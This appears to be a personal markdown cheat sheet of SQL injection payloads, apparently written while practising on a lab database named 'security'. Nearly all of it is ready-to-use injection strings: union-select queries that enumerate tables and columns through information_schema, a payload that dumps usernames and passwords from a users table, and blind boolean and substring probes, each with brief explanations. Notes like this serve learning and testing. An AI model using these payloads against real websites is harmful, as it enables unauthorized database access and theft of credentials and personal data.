


# basic

id=1' union select 1,2,3

id=1' union select current_user,database(),version()

user()

## get table name

`union select group_concat(table_name) from information_schema.tables where table_schema=database()`

or we can use

`union select table_name from information_schema.tables where table_schema=database() LIMIT 0,1`
then limit 1,1 2,1 3,1  etc.




## get column name
`union select 1,column_name,3 from information.schema where table_name='users'

## get data
`union select 1,group_concat(username),group_concat(password) from security.users --%20


## LIMIT clause
`LIMIT 1`means limit to only one row

`LIMIT 3,9` means from the third row, reveals nine rows

the reason why a lot of payloads contain `LIMIT 0,1` is 
the places that can reveal the results are always designed for revealing ONLY 1 ROW of data.
but if we select without `LIMIT 0,1`. There probably be a lot of rows of data. In this case, nothing will be dumped. 
also, we can use `group_concat` to address this issue.




## blind injection

```
?id=1' and (select substring(user(),1,1))='r' --%20
?id=1' and substring(user(),1,1)='r' --%20 Also works

?id=1' and ascii(substring(user(),1,1))>120 --%20
?id=1' and (select table_name from information_schema.tables where table_schema='security' limit 0,1)='emails' --%20

```

substring is a function, but select is a builtin sentence
function being invoked by (), while select doesn't need it, instead, a space will be needed.

select XXX is a full sentence
and (select XXX) is a value

so when using `union select user()='root'` will absolutely thrown error


